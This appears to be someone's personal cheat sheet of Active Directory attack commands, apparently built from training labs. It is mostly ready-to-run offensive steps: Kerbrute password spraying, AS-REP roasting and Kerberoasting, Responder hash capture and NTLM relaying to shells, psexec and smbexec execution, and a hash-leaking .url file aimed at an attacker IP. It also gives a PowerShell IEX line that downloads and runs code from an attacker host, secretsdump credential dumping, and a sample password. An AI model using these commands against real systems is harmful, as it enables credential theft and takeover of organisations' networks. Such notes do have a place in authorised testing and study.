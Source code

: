 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br> <br>
For password spray - kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>
<h1> Username grabbing via NULL session </h1> <br>
enum4linux -U DCIP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" <br>
crackmapexec smb 172.16.5.5 --users <br>
Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
<br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support (add -i for interactive shell)<br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  
  <h1> Pass the password </h1><br>
  crackmapexec smb IP/CIDR -u user -d domain -p password <br>
  This will loop through the IPs specified to see what devices the user can authenticate against. <br>
  <br>
  Then use smbclient to look into shares <br>
  smbclient -L 172.16.7.50 -U AB920 -W inlanefreight.local
  
  <h1> Pass the Hash </h1><br>
  Crackmapexec IP -u username -H hash --local-auth <br>
  <br>
  <h1> Find valid Domain Admins with lower account </h1> <br>
  python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
  
 <br>
  <h1> Secrets Dump </h1> <br>
  Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator <br>
  secretsdump.py domain/username:password@ip
  <br>
  
  <h1> Kerboeroasting </h1><br>
  Goal here is to get a TGS (Service Ticket) to decrypt servers account hash<br>
  python3 /home/kali/impacket/examples/GetUsersSPN.py domain/username:password -dc-ip IP -request <br> (doesnt always need password <br>
  Hashcat -m 13100 textfile.txt wordlist.txt <br>
  <br>
  <h2> Kerbroasting from windows </h2><br>
 
  Run Powerview (download fromn machine that can access the internet - IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.160:8000/PowerView.ps1') <br>
 Import-Module .\PowerView.ps1 <br>
Get-DomainUser * -spn | select samaccountname <br>
  Now target account - Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

